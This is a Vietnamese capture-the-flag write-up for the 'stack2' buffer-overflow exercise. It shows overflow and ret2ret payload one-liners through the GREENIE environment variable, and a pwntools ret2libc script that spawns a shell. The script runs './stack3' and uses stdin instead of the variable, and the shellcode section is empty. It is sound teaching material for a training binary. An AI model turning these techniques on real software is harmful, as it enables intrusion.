


# stack2

## description

Chạy thử chương trình thì báo lỗi vì chưa cài đặt biến môi trường tên `GREENIE`. Cùng ngó thử qua hàm main nhé.


Đọc qua ta thấy ngay lấy giá trị của biến môi trường `GREENIE(0x80485e0)` gán vào biến `variable([esp+0x5c])`. Sau đó, dùng strcpy để đưa giá trị từ `variable` tức là `GREENIE` vào `buf([esp+0x18])`. Cuối cùng so sánh giá trị ở biến `modified([esp+0x58])` với 0xd0a0d0a. Vậy ta cần tìm cách để cho `modified = 0xd0a0d0a`.

## Solution

### Buffer overflow

biến `modified` ở sau `buf`, nên phần `padding: 0x58-0x18 = 0x40`. bây giờ mình tạo một `environment variable` có tên là `GREENIE` nằm trong cùng đường dẫn với source. Như sau:

`export GREENIE= $(python -c ‘print “A”*64 + “\x0a\x0d\x0a\x0d”')`



### Ret2ret

Cũng tương tự, bài này có thể giải quyết bằng cách control EIP để jump về nhánh if chúng ta cần. Dùng cyclic và gdb pwndbg tìm được padding size = 84 bytes.
Payload: `export GREENIE=$(python -c 'print "a"*84+"\xef\x84\x04\x08"')`



## Spawn shell

vì vẫn dùng chung libc nên system address,&"/bin/sh" ko đổi, thay đổi script một chút là được.

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*64+p32(0x08048477)+b"a"*12   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process, export GREENIE = payload
p = process('./stack3')
p.sendline(payload)
p.interactive()
```

### inject shellcode